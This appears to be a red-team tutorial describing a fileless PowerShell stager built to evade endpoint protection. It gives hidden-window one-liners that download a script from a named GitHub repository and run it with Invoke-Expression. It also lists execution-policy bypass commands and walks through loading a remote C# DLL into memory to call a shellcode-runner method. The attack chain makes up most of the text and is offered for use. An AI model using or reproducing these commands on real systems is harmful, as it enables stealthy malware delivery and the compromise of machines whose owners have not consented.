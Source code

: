> **Why this approach and Why is it so Effective?**

- **Fileless** - Nothing gets written to disk initially
- **Evasive** - Harder for endpoint protection to catch
- **Modular** - Easy to update the second stage remotely (In this example, it's loaded from a folder in one of my github repos 😺)
- **Legitimate tools** - Uses LOTL techniques / built-in Windows PowerShell and .NET

***The Stager***
-

```powershell
powershell -w h -c "iwr 'https://raw.githubusercontent.com/g3tsyst3m/undertheradar/refs/heads/main/loadsc_dynamic2.ps1' | iex"
```

This can be ran any way you like for your red team campaign.  It's a simple one-liner.  There are some caveats to this running as expected.  You will of course want to ensure you have Execution Policy set correctly to allow script execution:

```powershell
Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
# or
Set-ExecutionPolicy Bypass -Scope CurrentUser
# or
Set-ExecutionPolicy Bypass -Scope Process
```

If you cannot or don't want to permanently change the execution policy, run your command like this:

```powershell
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command "iwr 'https://raw.githubusercontent.com/g3tsyst3m/undertheradar/refs/heads/main/loadsc_dynamic2.ps1' | iex"
```
This tells PowerShell to bypass the policy just for this session.

Now, let's review the code for the stager.  I intentionally did not include error checking as this is intended to work without any issues once executed within a red team campaign environment.  The full script, with error checking, will be available for folks interested if they're subscribed to me via ko-fi. 😸  This will do just fine for the purposes of this exercise though, so don't you worry!  Here's what we're doing in the script below:

- **For starters, we're defining a multiline PowerShell script and storing an entire PowerShell script inside the variable $code 😸**
- **We use `$webClient.DownloadData($url)` to download a custom-made, C# DLL file directly into memory as a byte array, stored in `$assemblyBytes`.**
- **We use `[System.Reflection.Assembly]::Load()` to load the raw byte array as a .NET assembly in memory, WITHOUT saving it to disk.  `$assembly` now represents the loaded DLL in memory.**
- **We specify the class (type) and method that we wish to execute:**
  - $typeName = 'ShellcodeRunner'
  - $methodName = 'ExecuteShellcode'
- **Get the type (class) object from the loaded assembly**
  - $type = $assembly.GetType($typeName)
    - Looks inside the loaded assembly for the type named "ShellcodeRunner".  If the type doesn’t exist, $type will be $null.
- **Get the method information for the method we want to invoke**
  - $methodInfo = $type.GetMethod($methodName, [System.Reflection.BindingFlags]::Public -bor [System.Reflection.BindingFlags]::Static)
    - Looks for a public static method named "ExecuteShellcode" inside the $type.  The BindingFlags specify that the method should be public and static.
**- Invoke the method dynamically**
  - $methodInfo.Invoke($null, @())
    - Calls the method "ExecuteShellcode" on the type.
    - The first argument is $null because the method is static (no instance needed).
    - The second argument is an empty array @() since the method takes no parameters.
- **Lastly, run the entire script stored in $code!**
  - iex $code
    - iex (Invoke-Expression) executes the string stored in $code as PowerShell code.